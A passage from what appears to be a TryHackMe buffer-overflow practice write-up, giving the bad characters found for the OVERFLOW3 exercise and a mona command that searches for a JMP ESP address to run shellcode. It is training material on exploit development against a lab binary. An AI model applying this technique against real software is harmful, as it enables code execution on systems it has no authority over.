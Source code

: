 ![Badchars final](/images/THM/buffprep/of3/Captura7.PNG)

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW3?
>Answer: \x00,\x11,\x40,\x5f,\xb8,\xee

##### Finding Right Module

Time to find the jump point for the execution of our shellcode.

```sh
!mona jmp -r esp -cpb "\x00,\x11,\x40,\x5f,\xb8,\xee"
```

We can use the first one, with the vale **62501203**.
